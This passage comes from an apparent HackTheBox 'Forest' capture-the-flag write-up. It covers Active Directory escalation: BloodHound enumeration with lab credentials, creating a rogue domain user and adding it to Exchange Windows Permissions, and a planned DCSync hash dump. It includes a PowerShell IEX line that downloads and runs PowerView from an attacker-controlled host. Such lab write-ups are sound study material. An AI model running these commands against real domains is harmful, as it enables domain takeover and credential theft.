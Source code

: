 ![Image](/assets/Screenshot 2024-09-15 at 1.09.43 AM.png)

(NOTE! I've seen TCM do this all remotely from the host machine with a script from his PEH course. I haven't tried it yet, but wanted to include it here in case I come back and want to do things differently: `bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -ns -c all`).

Now, we can start our `neo4j` service for `BloodHound` with `neo4j console`. Open `BloodHound`, login with credentials (neo4j, neo4j1) and import the data with the upload button. Once there, search for a user in the node and the data should populate.

![Image](/assets/Screenshot 2024-09-15 at 1.22.37 AM.png)

Now, we've got to tailor our path. Right click on `svc-alfresco` and choose "Shortest Paths from Owned Principles" in the analysis tab. We should get a result like the following:

![Image](/assets/Screenshot 2024-09-15 at 1.32.36 AM.png)

Now, there's a lot here, so let's go step by step. 

`svc-alfresco` is a member of `Service Accounts`, and by proxy, a member of `Privileged IT Accounts` and `Account Operators`. Doing research on `Account Operators`, we learn that they grant limited account creation privileges to a user, meaning that as `svc-alfresco`, we can create other users on the domain. 

There're great diagram, graphs, and explanations in this tool, so whenever you find yourself back here, take a look at all of the options and paths around a domain, and right click on the edges to learn about abuse of privileges and whatnot. 

So the plan of action is to create a new user, add the user to the `Windows Exchange Group`(where we have `GenericAll` permissions), give the user DcSync privileges with our `WriteDacle` permission, perform a DcSync attack to get all of the user hashes on the domain, and then pass them for administrator access.

Let's add a new user: `net user bobby password /add /domain`, and confirm his existence with `net user /domain`

![Image](/assets/Screenshot 2024-09-15 at 2.03.46 AM.png)

Now, prepare to add him to the `Exchange Windows Permission` group: `net group "Exchange Windows Permissions" /add bobby`. Be timely in these next steps, as there is a [script](https://0xdf.gitlab.io/2020/03/21/htb-forest.html) that I read about that will revoke DcSync privileges every minute or so.

We'll need to grant ourselves DcSync capabilities with an exploit. PowerView is the way I've done it, but there are one-liners online and in Bloodhound! Look in your `/usr/share/windows-resources/powersploit/Recon` directory and copy the file to the working directory. Fire up a python server in the working directory on Kali, I'd run into execution issues when trying with the SMB server. Use IEX string to download:

```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/PowerView.ps1')
```

Then, run these commands back to back. These will give `bobby` those DcSync privileges.

```powershell
$pass = convertto-securestring 'password' -AsPlainText -Force
```
